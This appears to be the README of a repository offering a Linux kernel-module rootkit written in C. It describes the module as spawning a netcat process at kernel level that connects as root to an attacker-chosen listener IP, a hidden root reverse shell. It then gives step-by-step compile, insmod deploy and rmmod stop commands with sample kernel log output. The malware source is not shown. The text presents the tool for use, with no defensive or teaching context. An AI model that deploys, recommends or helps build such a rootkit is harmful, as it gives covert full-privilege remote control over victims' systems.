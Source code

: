 # rootkit
A simple netcat rootkit for Linux
Written in C

This specific rootkit spawns a netcat process at a kernel level attempting to connect to the chosen listener IP as root

____________________________
# Rootkit
A rootkit is a system level piece of malware which lies underneath the foundation of the operating system, running code with full permissions either on bootup or via a logic bomb.
____________________________
# How to use

_Compile_

    $ make clean
    $ make
    
_Deploy_

    $ insmod r00tk1t.ko
    $ dmesg              # To view kernel logs
        ......
        ......
        [ 1234.1234] R00TK1T START

_Stop_

    $ rmmod r00tk1t
        ......
        ......
        [ 1234.1234] R00TK1T STOP
